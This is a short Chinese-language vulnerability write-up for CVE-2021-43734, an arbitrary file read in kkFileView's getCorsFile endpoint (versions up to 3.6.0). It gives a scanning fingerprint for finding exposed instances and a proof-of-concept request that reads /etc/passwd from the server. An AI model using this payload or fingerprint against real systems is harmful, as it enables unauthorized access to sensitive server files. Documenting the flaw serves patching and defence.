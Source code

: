 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>kkFileView getCorsFile <= 3.6.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="kkFileView" </a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1652453158898-01e2a7f9-f2eb-44ba-8715-06fed288748e.png)



验证POC

```java
/getCorsFile?urlPath=file:///etc/passwd 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1652453877704-2f24206f-efe1-459d-b0ff-5a2604605cc9.png)